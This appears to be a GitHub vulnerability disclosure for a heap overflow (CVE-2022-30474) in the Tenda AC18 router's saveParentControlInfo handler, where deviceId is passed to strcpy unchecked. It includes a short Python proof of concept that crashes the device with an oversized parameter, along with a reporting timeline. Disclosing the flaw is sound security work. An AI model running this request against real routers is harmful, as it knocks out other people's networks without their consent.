 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/saveParentControlInfo` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **heap overflow** vulnerability in function `saveParentControlInfo`.

In function `saveParentControlInfo` it reads user provided parameter `deviceId` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the heap-based buffer `ptr`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/saveParentControlInfo`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/saveParentControlInfo?"
url += "deviceId=" + "s" * 0x1000

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30474)
* 2022-05-30: CNVD ID assigned (CNVD-2022-41848)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
